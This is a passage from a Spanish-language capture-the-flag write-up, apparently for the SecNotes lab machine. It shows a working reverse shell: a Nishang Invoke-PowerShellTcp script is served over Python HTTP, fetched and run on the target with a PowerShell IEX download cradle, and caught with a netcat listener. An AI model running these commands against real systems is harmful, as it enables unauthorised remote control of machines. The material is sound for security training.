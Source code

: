 ```bash
C:\Users\tyler\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Users\tyler\Desktop

08/19/2018  02:51 PM    <DIR>          .
08/19/2018  02:51 PM    <DIR>          ..
06/22/2018  02:09 AM             1,293 bash.lnk
08/02/2021  02:32 AM             1,210 Command Prompt.lnk
04/11/2018  03:34 PM               407 File Explorer.lnk
06/21/2018  04:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  08:17 AM             1,110 Notepad++.lnk
12/26/2021  04:14 PM                34 user.txt
08/19/2018  09:59 AM             2,494 Windows PowerShell.lnk
               7 File(s)          7,965 bytes
               2 Dir(s)  13,913,157,632 bytes free

C:\Users\tyler\Desktop>
```

Por lo que primero, vamos a buscar nuestro archivo `Invoke-PowerShellTcp.ps1`, lo traemos a nuestro directorio de trabajo y al final del archivo, agregamos la linea `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 443`:

```bash
❯ locate Invoke-PowerShellTcp
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```

Nos compartimos un servidor HTTP con python, nos ponemos en escucha por el puerto 443 y procedemos a entablarnos una reverse shell en powershell.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.97 - - [26/Dec/2021 19:23:03] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
C:\Users\tyler\Desktop> powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.27/PS.ps1')
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.97] 53148
Windows PowerShell running as user SECNOTES$ on SECNOTES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
secnotes\tyler
PS C:\Users\tyler\Desktop>
```
